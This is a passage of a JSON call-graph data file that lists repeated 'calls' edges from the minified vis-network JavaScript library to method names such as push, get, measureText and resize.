"EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stream"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getOwnPropertyNames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getOwnPropertyNames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "determineLineHeights"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "determineLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "removeEmptyBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emitBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emitBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "prepareRegExp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "mod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unsetTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "unsetTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splitBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splitStringIntoLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splitStringIntoLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "finalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseWS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emitBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseWS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseStartTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseEndTag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emitBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "decodeMarkupSystem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splitMarkdownBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "splitHtmlBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "measureText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "curWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getLongestFit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getLongestFitWord"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "newLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseFontString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "propagateFonts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addFontToPile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseFontString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getFontOption"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addFontOptionsToPile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getBasicOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "calculateLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setAlignment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "strokeText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_processLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_processLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "chooser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_processLabelText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "adjustSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "differentState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableBorderDashes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableBorderDashes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "performStroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDimensionsFromLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_addBoundingBoxMargin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getImagePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getImagePadding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawImageAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDimensionsFromLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawRawCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_resizeImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "switchImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawRawCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawImageAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawImageLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 